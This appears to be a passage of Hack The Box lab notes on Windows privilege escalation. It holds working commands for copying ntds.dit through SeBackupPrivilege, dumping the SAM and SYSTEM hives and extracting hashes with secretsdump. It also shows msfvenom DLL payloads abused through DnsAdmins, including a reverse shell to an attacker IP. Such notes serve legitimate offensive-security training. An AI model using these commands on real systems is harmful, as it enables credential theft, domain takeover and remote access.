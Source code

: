 ```powershell
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

Once we have created shadow copy we can read the file as

```powershell
PS C:\\htb> Copy-FileSeBackupPrivilege E:\\Windows\\NTDS\\ntds.dit C:\\Tools\\ntds.dit

```

To decrypt the ntds.dit file we need System Registry Hives

* `reg save HKLM\\SYSTEM C:\\temp\\system.back`
* `reg save HKLM\\SAM C:\\temp\\sam.back`

Once we have ntds.dit and system hive, we can extract hashes using SecretsDump from Impacket

* `dollarboysushil@htb[/htb]$ secretsdump.py -ntds ntds.dit -system system.back LOCAL`

## **DnsAdmins ⭐**

Members of the [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) group have access to DNS information on the network.

we are going to generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`. We can also create dll to get reverse shell.

```
dollarboysushil@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

dollarboysushil@htb[/htb]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.65 LPORT=5555 -f dll > dbs.dll -> to create reverseshell dll.
```

Then transfer the dll file and load the dll file as:

```
C:\\htb> dnscmd.exe /config /serverlevelplugindll C:\\Users\\netadm\\Desktop\\adduser.dll

```

this dll will be loaded, next the DNS service is started.

```
C:\\htb> sc.exe stop dns
C:\\htb> sc.exe start dns
```

If we donot have permission to start/stop the dns, then we should play the waiting game.
